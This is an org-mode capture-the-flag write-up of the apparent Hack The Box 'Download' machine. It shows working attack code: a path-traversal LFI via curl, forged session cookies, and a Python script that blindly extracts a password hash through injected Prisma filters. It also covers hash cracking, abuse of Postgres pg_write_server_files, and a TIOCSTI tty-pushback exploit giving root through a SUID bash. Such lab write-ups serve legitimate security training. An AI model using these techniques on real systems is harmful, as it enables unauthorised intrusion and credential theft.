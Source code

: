 #+TITLE: Download HTB Writeup
#+AUTHOR: MattiaCossu

* Enumeration
let's start whit a simple scan whit:
#+BEGIN_SRC bash
  nmap -p- --min-rate=1000 -sV 10.129.68.188
  Starting Nmap 7.94 ( https://nmap.org )
  Nmap scan report for 10.129.68.188
  Host is up (0.17s latency).
  Not shown: 65533 closed tcp ports (reset)
  PORT STATE SERVICE VERSION
  22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
  80/tcp open http nginx 1.18.0 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
#+END_SRC

An initial Nmap scan reveals an *SSH* service on port ~22~ and an *Nginx server* on port ~80~.
** HTTP
Upon browsing to port 80 , we are redirected to the domain ~download.htb~.

Let's add an entry for ~download.htb~ to our ~/etc/hosts~ file with the corresponding IP address to resolve the domain names and allow us to access them in our browser.
#+BEGIN_SRC bash
  echo "10.129.68.188 download.htb" | sudo tee -a /etc/hosts
#+END_SRC

Upon visiting download.htb , we are greeted with the homepage of the "Download.htb"
application, which seems to allow users to upload and share files.

[[./pics/home.png]]

It also has the option to log in at ~/auth/login~.

Let us register ouselves at ~/auth/register~ to explore the application's functionality.

we see a file upload page.

[[./pics/upload.png]]

We do some tests with this but without success so we continue.

We check the _portal_ and looking at the headers we see that it is ~express~.
#+BEGIN_SRC bash
  curl -I http://download.htb                                                    
  HTTP/1.1 200 OK
  Server: nginx/1.18.0 (Ubuntu)
  Date: Sun, 19 Nov 2023 18:55:51 GMT
  Content-Type: text/html; charset=utf-8
  Content-Length: 3409
  Connection: keep-alive
  X-Powered-By: Express
  ETag: W/"d51-5GzI9n7y7raS8vKB6fFHd40C4+U"
  Set-Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfX0=; path=/; expires=Sun, 26 Nov 2023 18:55:51 GMT; httponly
  Set-Cookie: download_session.sig=4kbZR1kOcZNccDLxiSi7Eblym1E; path=/; expires=Sun, 26 Nov 2023 18:55:51 GMT; httponly
#+END_SRC
* Information Disclosure
Now we can try to exploit by an ~LFI~ for obtain _app.js_
#+BEGIN_SRC bash
  curl --path-as-is "http://download.htb/files/download/..%2Fapp.js" -s -o app.js
#+END_SRC

We this command our obatined the file after mentioned
#+BEGIN_SRC javascript
  "use strict";
  var __importDefault = (this && this.__importDefault) || function (mod) {
      return (mod && mod.__esModule) ? mod : { "default": mod };
  };
  Object.defineProperty(exports, "__esModule", { value: true });
  const express_1 = __importDefault(require("express"));
  const nunjucks_1 = __importDefault(require("nunjucks"));
  const path_1 = __importDefault(require("path"));
  const cookie_parser_1 = __importDefault(require("cookie-parser"));
  const cookie_session_1 = __importDefault(require("cookie-session"));
  const flash_1 = __importDefault(require("./middleware/flash"));
  const auth_1 = __importDefault(require("./routers/auth"));
  const files_1 = __importDefault(require("./routers/files"));
  const home_1 = __importDefault(require("./routers/home"));
  const client_1 = require("@prisma/client");
  const app = (0, express_1.default)();
  const port = 3000;
  const client = new client_1.PrismaClient();
  const env = nunjucks_1.default.configure(path_1.default.join(__dirname, "views"), {
      autoescape: true,
      express: app,
      noCache: true,
  });
  app.use((0, cookie_session_1.default)({
      name: "download_session",
      keys: ["<redact>"],
      maxAge: 7 * 24 * 60 * 60 * 1000,
  }));
  app.use(flash_1.default);
  app.use(express_1.default.urlencoded({ extended: false }));
  app.use((0, cookie_parser_1.default)());
  app.use("/static", express_1.default.static(path_1.default.join(__dirname, "static")));
  app.get("/", (req, res) => {
      res.render("index.njk");
  });
  app.use("/files", files_1.default);
  app.use("/auth", auth_1.default);
  app.use("/home", home_1.default);
  app.use("*", (req, res) => {
      res.render("error.njk", { statusCode: 404 });
  });
  app.listen(port, process.env.NODE_ENV === "production" ? "127.0.0.1" : "0.0.0.0", () => {
      console.log("Listening on ", port);
      if (process.env.NODE_ENV === "production") {
	  setTimeout(async () => {
	      await client.$executeRawUnsafe(`COPY (SELECT "User".username, sum("File".size) FROM "User" INNER JOIN "File" ON "File"."authorId" = "User"."id" GROUP BY "User".username) TO '/var/backups/fileusages.csv' WITH (FORMAT csv);`);
	  }, 300000);
      }
  });
#+END_SRC

After revioned that we noticed an interesting things
#+BEGIN_SRC javascript
  app.use((0, cookie_session_1.default)({
      name: "download_session",
      keys: ["<redact>"],
      maxAge: 7 * 24 * 60 * 60 * 1000,
  }));
#+END_SRC

The code snippet above shows the key used to ~encrypt session cookies~, so perhaps we can use it to move forward.

Continuing whit ~LFI~ download a ~package.json~ a classic file in a ~node app~ often contian an user information.
#+BEGIN_SRC bash
  curl --path-as-is "http://download.htb/files/download/..%2Fpackage.json" -s -o app.js
#+END_SRC

We have obtain this whit information about the user, your name us ~wesley~.
#+BEGIN_SRC bash
  {
    "name": "download.htb",
    "version": "1.0.0",
    "description": "",
    "main": "app.js",
    "scripts": {
      "test": "echo \"Error: no test specified\" && exit 1",
      "dev": "nodemon --exec ts-node --files ./src/app.ts",
      "build": "tsc"
    },
    "keywords": [],
    "author": "wesley",
    "license": "ISC",
    "dependencies": {
	"@prisma/client": "^4.13.0",
  <SNIP>
#+END_SRC

Now let's delve into what we know by going to take a closer look at ~cookies~

this is a cookie
#+BEGIN_SRC bash
  eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTYsInVzZXJuYW1lIjoidGVzdDEyMyJ9fQ==
#+END_SRC

Now let's decode this with:
#+BEGIN_SRC bash
  echo 'eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTYsInVzZXJuYW1lIjoidGVzdDEyMyJ9fQ==' | base64 -d
#+END_SRC

and obtain taht:
#+BEGIN_SRC bash
  {"flashes":{"info":[],"error":[],"success":[]},"user":{"id":16,"username":"test123"}}
#+END_SRC

let's modify the coockie a bit and try signing our own with ~cookie-monster~.
_Cookie.json_
#+BEGIN_SRC json
{"user": {"username": {"contains": "WESLEY"}}
#+END_SRC

#+BEGIN_SRC bash
  ./cookie-monster.js -e -f ~/CTF/HTB/Download/loots/cookie.json -k "<redact>" -n "download_session"
		 _  _
	       _/0\/ \_
      .-.   .-` \_/\0/ '-.
     /:::\ / ,_________,  \
    /\:::/ \  '. (:::/  `'-;
    \ `-'`\ '._ `"'"'\__    \
     `'-.  \   `)-=-=(  `,   |
	 \  `-"`      `"-`   /

  [+] Data Cookie: download_session=<redact>
  [+] Signature Cookie: download_session.sig=<redact>
#+END_SRC

Instead, let us now try to automate with a ~python script~ and a particular ~GraphQl querry~ to look for the leak of the password hash
#+BEGIN_SRC python
  #!/usr/bin/env python3
  import json, subprocess, re, string, requests

    regex = r"download_session=([\w=\-_]+).*download_session\.sig=([\w=\-_]+)"

    def writeJson(j):
	with open("cookie.json", "w") as f:
	    f.write(json.dumps(j))

    def generateAndSign(startsWith):
	j = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":startsWith}}}
	writeJson(j)
	out = subprocess.check_output(["./cookie-monster.js", "-e", "-f", "cookie.json", "-k", "<redacted>", "-n", "download_session"]).decode().replace("\n"," ")
	matches = re.findall(regex, out, re.MULTILINE)[0]
	return matches

    if __name__ == "__main__":
	passwd = ""
	alphabet="abcdef"+string.digits

	for i in range(32):
	    for s in alphabet:
		p = passwd + s
		(download_session, sig) = generateAndSign(p)
		cookie = {"download_session": download_session, "download_session.sig": sig}
		print(p, end='\r')
		r = requests.get('http://download.htb/home/', cookies=cookie)
		if len(r.text) != 2174:
		    passwd = p
		    break

	print() 
#+END_SRC
* Foothold
whit this script we had obtain an ~md5 pwd~ so let's try to crack them with ~HashCat~
#+BEGIN_SRC bash
  hashcat -a 0 -m 0 loots/hash 
#+END_SRC

and after to try logon in the system
#+BEGIN_SRC bash
  ssh wesley:<redacted>@download.htb
#+END_SRC
* Privilage Escaletion
Once inside, we checked the services and found an interesting one.
#+BEGIN_SRC bash
  systemctl list-unit-files | grep download
#+END_SRC

#+BEGIN_SRC bash
  cd /etc/systemd/system && cat download-site.service
#+END_SRC

So we review the interesting ~service configuration~ file
#+BEGIN_SRC bash
  [Unit]
  Description=Download.HTB Web Application
  After=network.target
 
  [Service]
  Type=simple
  User=www-data
  WorkingDirectory=/var/www/app/
  ExecStart=/usr/bin/node app.js
  Restart=on-failure
  Environment=NODE_ENV=production
  Environment=DATABASE_URL="postgresql://download:<redacted>@localhost:5432/download"
 
  [Install]
  WantedBy=multi-user.target
#+END_SRC

And we see in it the ~postgres credentials~, so we connect to it.
#+BEGIN_SRC bash
  psql -h localhost -p 5432 -U download -W download
#+END_SRC

And now let's go and review the ~database~.
#+BEGIN_SRC bash
  download => \l
#+END_SRC

The permission:
#+BEGIN_SRC bash
  download => \du
                                            List of roles
 Role name |                         Attributes                         |        Member of        
-----------+------------------------------------------------------------+-------------------------
 download  |                                                            | {pg_write_server_files}
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}
#+END_SRC

We have an interesting ~privilage~.
#+BEGIN_SRC text
  pg_write_server_files
#+END_SRC

With the ~pg_write_server_files~ permission we can _write to files_ so it will be our way to escalate privileges.

And if we check the ~processes~ we can see that the following command is executed as root every few minutes.
#+BEGIN_SRC bash
  su -l postgres
#+END_SRC

[[./pics/process.jpg]]

With which *root impersonates* the user postgrees so we can take advantage of it to exploit the ~tty pushback~ _vulnerability_ and escalate to *root*.
#+BEGIN_SRC python
  #!/usr/bin/env python3
  import fcntl
  import termios
  import os
  import sys
  import signal
 
  os.kill(os.getppid(), signal.SIGSTOP)
 
  for char in sys.argv[1] + '\n':
      fcntl.ioctl(0, termios.TIOCSTI, char)
#+END_SRC

And we run it from ~postgres~.
#+BEGIN_SRC bash
  download=> COPY (SELECT CAST('/tmp/test.py "chmod u+s /bin/bash"' AS text)) TO '/var/lib/postgresql/.bash_profile'; 
  COPY 1
#+END_SRC

We wait a couple of minutes for ~root~ to _re-execute_ the command and we will see that the bash binary has ~suid permissions~.
#+BEGIN_SRC bash
  ls -l /bin/bash
  -rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
#+END_SRC

For escalete the privilage we can run this command and close the job!
#+BEGIN_SRC bash
  bash -p
  bash-5.0# id
  uid=1000(wesley) gid=1000(wesley) euid=0(root) groups=1000(wesley)
#+END_SRC
